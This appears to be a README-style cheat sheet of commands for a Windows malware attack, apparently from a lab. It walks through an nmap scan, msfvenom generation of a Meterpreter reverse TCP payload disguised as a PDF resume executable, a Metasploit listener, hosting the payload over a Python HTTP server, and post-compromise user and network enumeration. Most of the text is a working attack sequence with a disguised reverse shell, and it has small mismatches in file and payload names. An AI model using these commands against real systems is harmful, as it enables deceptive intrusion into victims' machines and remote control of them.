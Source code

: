 
# 🛡️ Commands for Malware Attack (With Comments)

## 🔍 Reconnaissance

```bash
# Scan the target machine aggressively and skip host discovery
nmap -A 192.168.20.10 -Pn
```

---

## 💣 Payload Creation

```bash
# List all available payloads in msfvenom
msfvenom -l payloads
```

```bash
# Generate a reverse TCP payload disguised as a .exe file
# Replace LHOST with your attacker's IP and LPORT with a listening port
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.20.11 LPORT=4445 -f exe -o resume1.pdf.exe
```

```bash
# Check the file type of the payload to confirm it is an executable
file Attemp1.pdf.exe
```

---

## 🎯 Metasploit Console Commands

```bash
# Start Metasploit Framework console
msfconsole
```

```bash
# Use the exploit handler for managing reverse connections
use exploit/multi/handler
```

```bash
# Show current settings and options
options
```

```bash
# Set the same payload used in msfvenom
set payload windows/x64/meterpreter/reverse_tcp
```

```bash
# Show options again to verify payload settings
options
```

```bash
# Set the local host (attacker machine's IP)
set LHOST 192.168.20.11
```

```bash
# Show final configuration before launch
options
```

```bash
# Start the exploit and wait for incoming connection
exploit
```

---

## 🌐 Hosting the Payload (New Terminal Tab)

```bash
# List files in the current directory to ensure the payload is present
ls
```

```bash
# Start a simple HTTP server on port 9999 to serve the payload
python3 -m http.server 9999
```

---

## 🧠 Meterpreter Shell (After Target Executes Payload)

```bash
# Switch to a basic shell on the victim's machine
shell
```

```bash
# View user accounts on the system
net user
```

```bash
# Check local admin groups and memberships
net localgroup
```

```bash
# View IP configuration of the compromised system
ipconfig
```
